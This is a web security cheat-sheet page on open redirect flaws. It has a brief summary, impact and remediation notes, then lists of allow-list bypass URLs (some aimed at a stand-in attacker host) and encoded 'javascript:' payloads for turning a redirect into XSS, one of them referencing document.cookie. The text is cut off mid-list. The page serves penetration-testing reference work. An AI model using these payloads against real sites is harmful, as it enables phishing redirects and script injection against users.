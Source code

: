 # Open Redirect

* **Open Redirection in the POST method**
  *   **Summary**

      🐞 Open Redirection vulnerability in a POST parameter. Open redirect occurs when a web page is being redirected to another URL in another domain via a user-controlled input.
  *   **Impact**

      🐞 Because the vulnerability can be only exploited via POST requests, its impact is very limited and it cannot be directly used for common Open Redirect attacks such as phishing.
  *   **Remediation**

      🐞 \*\*Remediation\*\*

      * If you definitely need dynamic URLs, use whitelisting. Make a list of valid, accepted URLs and do not accept other URLs.
      * Where possible, do not use users' input for URLs.
      * Ensure that you only accept URLs those are located on the trusted domains.
*   **Bypasses Payloads**

    ```bash
    https://allow_domain.hahwul.com
    https://allow_domain@hahwul.com
    https://www.hahwul.com#allow_domain
    https://www.hahwul.com?allow_domain
    https://www.hahwul.com\\allow_domain
    https://www.hahwul.com&allow_domain
    http:///////////www.hahwul.com
    http:\\\\www.hahwul.com
    http:\\/\\/www.hahwul.com
    # if target accept only google.com
    https://google.com/amp/s/poc.attacker.com
    ```
*   **Open Redirect to XSS**

    ```jsx
    javascript:alert(1)
    java%00script: 
    java%0Ascript: 
    java&tab;script:
    java%0Ascript:al%0Aert()
    java%0d%0ascript%0d%0a:alert(0)
    javascript://%250Aalert(1)
    javascript://%250Aalert(1)//?1
    javascript://%250A1?alert(1):0
    %09Jav%09ascript:alert(document.domain)
    javascript://%250Alert(document.location=document.cookie)
    /%09/javascript:alert(1);
    /%09/javascript:alert(1)
    //%5cjavascript:alert(1);
    //%5cjavascript:alert(1)
    /%5cjavascript:alert(1);
    /%5cjavascript:alert(1)
    javascript://%0aalert(1)
    <>javascript:alert(1);
    //javascript:alert(1);
    //javascript:alert(1)
    /javascript:alert(1);
    /javascript:alert(1)
    \\j\\av\\a\\s\\cr\\i\\pt\\:\\a\\l\\ert\\(1\\)
    javascript:alert(1);
    javascript:alert(1)